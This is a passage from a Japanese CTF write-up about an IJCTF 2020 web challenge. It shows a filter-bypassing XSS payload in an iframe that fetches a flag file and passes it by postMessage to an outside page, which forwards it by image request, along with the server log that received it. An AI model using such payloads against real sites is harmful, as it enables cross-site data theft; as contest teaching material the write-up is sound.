 `inject` という GET パラメータに `meta` `on` `src` `<script>` `</script>` のいずれも含まれていなければ、`<script>` の直前にそのまま出力されるようです。XSS でしょう。

`check.php` から URL を報告すれば admin が巡回に来てくれるようですが、どうやらこの問題サーバのオリジン以外でも巡回に来てくれるようです。

`<script >/* コード */</script >` で普通に JavaScript コードが実行でき、また `fetch` や XHR で `flag.php` を取得できます。が、`Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'` という CSP のために `(new Image).src = '…' + resp` のようなコードで内容を外部に送信しようとしても防がれてしまいます。

一見厳しそうですが、このページで `X-Frame-Options` が発出されておらず `check.php` がこの問題サーバのオリジン以外でも巡回に来てくれるということに注目します。

`iframe` でこのページを開き、XSS を使って `fetch` で `flag.php` を取得した後 `postMessage` で親ウィンドウにフラグを投げるようなページを作るのはどうでしょうか。これなら CSP には引っかからないはずです。

以下のような HTML を適当なページに公開し、その URL を `check.php` から投げると、

```html
<iframe src="http://localhost/?inject=%3Cscript%20%3Efetch(%27flag.php%27).then(resp=%3Eresp.text()).then(resp=%3E{window.parent.postMessage(resp,%27*%27)})//"></iframe>
<script>
window.addEventListener('message', function (e) {
  (new Image).src = 'result.php?message=' + e.data;
});
</script>
```

以下のようなアクセスがありました。

```
$ php -S 0.0.0.0:8000
︙
[Sat Apr 25 11:35:42 2020] (省略) [404]: /result.php?message=ijctf{But,,I%27m_using_latest_chrome...} - No such file or directory
```

```
ijctf{But,,I'm_using_latest_chrome...}
```

---

競技終了後に Discord のログを読んだところ、`http://localhost/check.php` に `http://(適当なところ)/?flag=(フラグ)` を投げさせるような解法もあったようです。なるほど。

## [Web 964] nod_nod (9 solves)
> run /flag
> 
> http://(省略)/
> 
> flag format: ijctf{}
> 
> No rockyou or raw bruteforce.
> 
> Bruteforce is only allowed with some technics like "Blind Sql Injection"
> 
> But payload has to be not too long.
> 
> Too long will kill server.
> 
> Tip: I like php. and I saw the admin's passcode ends with "de"
> 
> Author: sqrtrev
> 
> 添付ファイル: web.7z
